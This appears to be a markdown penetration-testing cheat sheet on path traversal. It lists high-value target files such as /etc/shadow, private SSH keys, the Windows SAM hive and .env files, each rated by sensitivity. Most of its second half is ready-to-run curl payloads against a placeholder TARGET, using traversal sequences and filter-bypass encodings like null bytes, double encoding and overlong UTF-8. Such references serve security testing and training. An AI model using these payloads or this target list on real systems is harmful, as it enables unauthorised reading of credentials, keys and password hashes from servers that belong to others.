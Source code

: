 # Vulnerability - File Inclusion

## Path Traversal
- Also known as Directory traversa
- Allows an attacker to read operating system resources, such as local files on the server running an application.

### Linux — common files to test
- **`/etc/passwd`** — system user accounts (no password hashes on modern systems). **Sensitivity:** Medium.  
- **`/etc/shadow`** — password hashes for users (normally privileged). **Sensitivity:** Critical.  
- **`/etc/issue`** — system banner (fingerprinting). **Sensitivity:** Low.  
- **`/proc/version`** — kernel version (fingerprinting). **Sensitivity:** Low.  
- **`/etc/hosts`** — local hostname mappings. **Sensitivity:** Low.  
- **`/etc/ssh/sshd_config`** — SSH server configuration (may reveal ports/options). **Sensitivity:** High.  
- **`/root/.ssh/id_rsa`** (or `~/.ssh/id_rsa` for users) — private SSH keys. **Sensitivity:** Critical.  
- **`/root/.bash_history`** (or users' histories) — shell history, may contain secrets/commands. **Sensitivity:** High.  
- **`/var/log/auth.log`, `/var/log/secure`** — authentication logs. **Sensitivity:** High.  
- **`/var/log/apache2/access.log`, `/var/log/nginx/access.log`** — web server logs (may contain tokens, session IDs). **Sensitivity:** Medium → High.  
- **`/var/log/messages`, `/var/log/syslog`, `/var/log/dmesg`** — general system logs (useful for enumeration). **Sensitivity:** Medium.  
- **`/etc/cron*`, `/var/spool/cron/crontabs`** — cron jobs (may reveal scripts or credentials). **Sensitivity:** High.  
- **`/etc/mysql/my.cnf`, /etc/postgresql/*/pg_hba.conf** — DB configs (may include credentials or connection info). **Sensitivity:** High.  
- **`/var/www/html/.env`, /var/www/app/.env, */.env`** — application environment variables (often contain DB credentials, API keys). **Sensitivity:** Critical.  
- **Application config files** (e.g., `config.php`, `settings.php`) — may include DB credentials, salts, API keys. **Sensitivity:** High.  
- **`/etc/selinux/config`** — SELinux policy info. **Sensitivity:** Low → Medium.  
- **Backup files** (e.g., `/etc/passwd-`, `config.php~`, `backup.sql`) — may contain sensitive copies. **Sensitivity:** Medium → High.

### Windows — common files to test
- **`C:\boot.ini`** — legacy boot configuration (older Windows versions). **Sensitivity:** Low.  
- **`C:\Windows\win.ini`** — legacy configuration file (fingerprinting). **Sensitivity:** Low.  
- **`C:\Windows\System32\config\SAM`** — local SAM database (contains account hashes; normally protected). **Sensitivity:** Critical.  
- **`C:\Windows\System32\config\SYSTEM`, `... \SOFTWARE`** — registry hives. **Sensitivity:** Critical.  
- **`C:\Users\Administrator\.ssh\id_rsa`** or `C:\Users\<user>\.ssh\id_rsa` — private SSH keys. **Sensitivity:** Critical.  
- **`C:\Users\<user>\AppData\Roaming\*`** — application configs and possible credentials. **Sensitivity:** Medium → High.  
- **Web app configs** (`C:\inetpub\wwwroot\.env`, `web.config`, `appsettings.json`) — may contain connection strings and secrets. **Sensitivity:** Critical / High.  
- **DB/service configs** (`C:\ProgramData\MySQL\my.ini`, `C:\Program Files\*\config.ini`) — service configuration and potential secrets. **Sensitivity:** High.  
- **Windows event logs** (`C:\Windows\System32\winevt\Logs\Application.evtx`, `Security.evtx`) — event data for forensics/enum. **Sensitivity:** Medium → High.  
- **IIS logs** (`C:\inetpub\logs\LogFiles\W3SVC*\u_ex*.log`) — web logs (may include sensitive request data). **Sensitivity:** Medium.  
- **User documents** (`C:\Users\<user>\Documents\*`) — files that may contain secrets. **Sensitivity:** Medium → High.  
- **Scheduled tasks** (`C:\Windows\Tasks`, `C:\Windows\System32\Tasks`) — tasks and referenced scripts (may run with elevated privileges). **Sensitivity:** High.

### Web application & framework files (both OS)
- **`.env`, `config.php`, `wp-config.php`** — environment variables and DB credentials for apps and CMS. **Sensitivity:** Critical.  
- **`config/*.yml`, app config files (e.g., `parameters.yml`)`** — app configuration files for frameworks (Symfony, Rails). **Sensitivity:** High.  
- **`WEB-INF/web.xml`, WEB-INF/classes`** — Java webapp configuration and properties. **Sensitivity:** High.  
- **Uploads and users' files** (`/uploads/*`) — can expose user content or previously uploaded sensitive files. **Sensitivity:** Medium → High.  
- **Backups left in webroot** (`backup.zip`, `dbbackup.sql`, `config.bak`) — commonly exposed sensitive data. **Sensitivity:** High.

### Basic curl probes
```bash
# Direct traversal (Linux)
curl -si "http://TARGET/index.php?lang=../../../../etc/passwd"

# Trailing slash trick (some filters block exact filename)
curl -si "http://TARGET/index.php?lang=/etc/passwd/"

# Null byte (legacy/old targets; often ineffective on modern stacks)
curl -si "http://TARGET/index.php?lang=/etc/passwd%00"

# URL-encoded
curl -si "http://TARGET/index.php?lang=%2Fetc%2Fpasswd"

# Double-encoded
curl -si "http://TARGET/index.php?lang=%252Fetc%252Fpasswd"

# Mixed encodings / dot-variants
curl -si "http://TARGET/index.php?lang=..%2F..%2F..%2F..%2Fetc%2Fpasswd"
curl -si "http://TARGET/index.php?lang=.%2F.%2F.%2F.%2Fetc%2Fpasswd"
```
### Encodings & weird separators

```bash
# Backslash (Windows) encoded
curl -si "http://TARGET/index.php?lang=..%5C..%5C..%5C..%5CWindows%5Cwin.ini"

# Overlong / Unicode variants (may bypass naive filters)
curl -si "http://TARGET/index.php?lang=%C0%AE%C0%AE%2F%C0%AE%C0%AE%2Fetc%2Fpasswd"

# UTF-8 percent-encoding of dots/slashes
curl -si "http://TARGET/index.php?lang=%2e%2e%2f%2e%2e%2fetc%2fpasswd"
```